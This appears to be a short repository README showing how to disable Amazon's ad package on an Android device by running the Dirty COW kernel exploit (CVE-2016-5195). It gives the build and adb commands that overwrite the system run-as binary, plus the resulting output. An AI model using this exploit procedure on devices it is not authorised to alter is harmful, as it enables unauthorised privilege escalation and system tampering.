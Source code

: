# Disable Amazon Ads (Using Exploit CVE-2016-5195)
```
# edit the Makefile to point to your NDK toolchain or use Android.mk
$ make run-as
$ make dirtycow
$ adb push run-as /data/local/tmp
$ adb push dirtycow /data/local/tmp
$ adb shell /data/local/tmp/dirtycow /system/bin/run-as /data/local/tmp/run-as
$ adb shell /system/bin/run-as
Package com.amazon.phoenix new state: disabled
$
```
